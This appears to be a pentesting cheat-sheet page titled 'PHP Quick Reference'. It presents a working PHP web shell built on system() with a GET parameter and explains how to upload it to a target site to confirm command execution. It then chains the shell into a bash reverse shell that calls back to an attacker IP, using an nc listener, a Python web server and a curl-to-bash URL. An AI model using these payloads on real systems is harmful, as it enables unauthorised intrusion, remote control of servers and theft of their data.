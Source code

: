# PHP Quick Reference

## Contents
- []()
- []()
- []()
- []()
- []()
- []()
- []()

## One-Liner: cmd
- This is a [PHP function](https://www.php.net/manual/en/function.system.php) that is used to execute a command.
- It uses the PHP `system()` function to execute commands that are being passed through `cmd` HTTP request `GET` parameter.
- The `cmd` is a parameter. You pass the argument to that parameter via the URL (see below).
- Reference: [An Introduction to Web Shells](https://www.acunetix.com/blog/articles/introduction-web-shells-part-1/)

### Syntax
- This is the PHP web shell in its most simple form: 
```
<?php system($_GET["cmd"]); ?>
```

### Use as a Test
- Create a PHP file and upload it to a target site that's running PHP:
```
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```
- Build a URL to execute that script with a command (specific to the operating system o/s).
- If you get a response from the command you send to the o/s via the PHP `system()` function, you know you can execute arbitrary code on the target.
```
# for Linux:
http://[target domain]/shell.php?cmd=id

# for Windows:
http://[target domain]/shell.php?cmd=dir
```

### Reverse Shell

#### Linux Payload
- Create a shell script file containing a [Bash one-liner](bash.md) for a reverse shell.
- Use vim or some other editor and create `shell.sh` containing the following: 
```
#!/bin/bash
bash -i >& /dev/tcp/<YOUR_IP_ADDRESS>/1234 0>&1
```

#### Start a Listener
- On your attack machine, spin up a listener:
```
nc -nvlp 1234
```

#### Spin Up a Local Web Server
- Start a simple Python web server on your local attack machine to serve up the bash file.
- This command must be run from the subdir that contains `shell.sh`.
```
python3 -m http.server 8000
```

#### Build a URL with curl to Execute
- We combine the PHP one-liner with a curl command to fetch `shell.sh`, and then we pipe it to Bash in order to execute it.
```
http://[target domain]/shell.php?cmd=curl%20[local attack ip]:8000/shell.sh|bash
```











